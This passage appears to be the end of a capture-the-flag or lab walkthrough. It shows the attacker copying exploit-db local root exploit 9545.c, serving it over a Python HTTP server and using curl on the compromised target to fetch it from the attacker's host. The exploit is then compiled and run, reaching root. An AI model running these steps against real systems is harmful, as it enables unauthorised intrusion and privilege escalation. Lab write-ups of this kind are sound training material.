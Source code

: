 ```console
cp /usr/share/exploitdb/exploits/linux/local/9545.c .
```

Create a Python Simpleserver to serve the file ([Python3 command](https://gist.github.com/willurd/5720255) is a bit different)

```console
$ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

On the target machine, using our open shell session, run curl to pull the exploit file using
`curl http://10.0.0.12:8080/9545.c --output /tmp/9545.c` command.

Note:
> We're storing the file in the `/tmp` path as sometimes we might encounter permissions issues storing and accessing files in other directories.

Use `ls -la /tmp` to verify the file exists
```console
bash-3.00$ ls -la /tmp
total 32
drwxr-xrwx   4 root   root   4096 Jan 18 19:18 .
drwxr-xr-x  23 root   root   4096 Jan 18 17:02 ..
-rw-r--r--   1 apache apache 9783 Jan 18 19:17 9545.c
drwxrwxrwt   2 root   root   4096 Jan 18 17:03 .font-unix
drwxrwxrwt   2 root   root   4096 Jan 18 17:02 .ICE-unix
```

change directory to `/tmp`, compile, run the exploit and check `whoami` to confirm the exploit worked

```console
bash-3.00$ gcc -o my_exploit 9545.c
9545.c:376:28: warning: no newline at end of file

bash-3.00$ ./my_exploit
sh: no job control in this shell

sh-3.00# whoami
root
```

**Success!**


# Summary
* Browsing web pages manually can be beneficial and we might find interesting and valuable information which automated tools might miss.
* Don't run to SQLmap, simple SQLi payloads might work.
